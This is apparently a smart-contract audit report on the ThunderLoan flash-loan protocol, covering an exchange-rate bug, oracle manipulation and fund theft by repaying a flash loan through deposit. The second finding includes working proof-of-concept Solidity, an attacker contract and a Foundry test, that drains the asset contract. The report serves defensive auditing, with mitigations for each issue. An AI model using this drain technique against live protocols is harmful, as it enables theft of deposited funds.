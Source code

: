 ### [S-#] TITLE (Root Cause -> Impact)

**Description:** 

**Impact:** 

**Proof of Concept:**

**Recommended Mitigation:** 



## High

### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks redemption and incorrectly sets the exchange Rate


**Description:**  In the ThunderLoan system, the `exchangeRate`is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it's  responsible for keeping track of how many fees to give to liquidity providers.

However, the  `deposit` function, updates this rate, without collecting any fees!

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

        //@audit -high we shouldn't be updating the exchange rate here    
    @>   uint256 calculatedFee = getCalculatedFee(token, amount);
    @>   assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impacts to this bug.

1. The `redeem` function is blocked, because the protocol thinks the owed tokens is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers getting way more or less than deserved.

**Proof of Concept:**

1. LP deposits.
2. User takes out a flash loan.
3. It is now impossible for LP to redeem.

<details>
<summary>Proof of Code</summary>

Place the following in the `ThunderLoanTest.t.sol`

```javascript
function testRedeemAfterLoan() public setAllowedToken hasDeposits{
        //liquidityProvider deposits the asset
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        //user taking the flashloan
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        //liquidityProvider redeeming his assets as we
        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
    }
```
</details>

**Recommended Mitigation:** Remove the incorrectly updated exchange rate lines from `deposit`

```diff
  function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```




### [H-2] All the funds can be stolen if the flashloan is returned using deposit()

**Description** The `flashloan` function checks to ensure that ending balance is always greater than the initial balance + fee (for borrowing).But this check is done using token.balanceOf(address(assetToken)).
Exploiting this vulnerability, an attacker can return the flashloan using the `deposit` function instead of `repay` function. This allows the attacker to mint AssetToken and subsequently redeem it using `redeem` function. This will result in  apparent increase in the Asset contract's balance and  the check will pass and the flashloan function doesn't revert.

```javascript
    uint256 endingBalance = token.balanceOf(address(assetToken));

```

**Impact**  All the funds of the AssetContract can be stolen.


<details>
<summary>Proof of Code</summary>

**Place the following  test in the ThunderLoanTest.t.sol**

```javascript
    function testUserDepositInsteadOfRepayToStealFunds() public setAllowedToken hasDeposits{
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor =  new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();

        console.log("balance of dor contract",tokenA.balanceOf(address(dor))); //50157185829891086986
        console.log("balance of tokenA contract", address(tokenA).balance); //0
        console.log("amount borrowed + fee", 50e18 + fee); //50150000000000000000
        assert(tokenA.balanceOf(address(dor)) > 50e18 + fee);
    }

```


**Place the following contract  in the ThunderLoanTest.t.sol**

```javascript
contract  DepositOverRepay is  IFlashLoanReceiver{
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;
    constructor(address _thunderLoan){
        thunderLoan = ThunderLoan(_thunderLoan);
    }
    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /* params*/
    )
        external
        returns (bool)
        {
            s_token = IERC20(token);
            assetToken = thunderLoan.getAssetFromToken(IERC20(token));
            IERC20(token).approve(address(thunderLoan), amount +fee);
            thunderLoan.deposit(IERC20(token),amount+ fee);
            return true;
        }
    function redeemMoney() public{
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(s_token, amount);

    }
}
```

</details>

**Recommended Mitigation** Add a check in `deposit` function to make it impossible to use it in the same block of the flash loan. For example registring the block.number in a variable in `flashloan` function and checking it in `deposit` function.

## Medium

### [M-1] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees. 

**Impact:** Liquidity providers will drastically reduced fees for providing liquidity. 

**Proof of Concept:** 

The following all happens in 1 transaction. 

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price. 
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`. 
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper. 
```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```
    3. The user then repays the first flash loan, and then repays the second flash loan.

I have created a proof of code located in my `audit-data` folder. It is too large to include here. 

**Recommended Mitigation:** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle. 

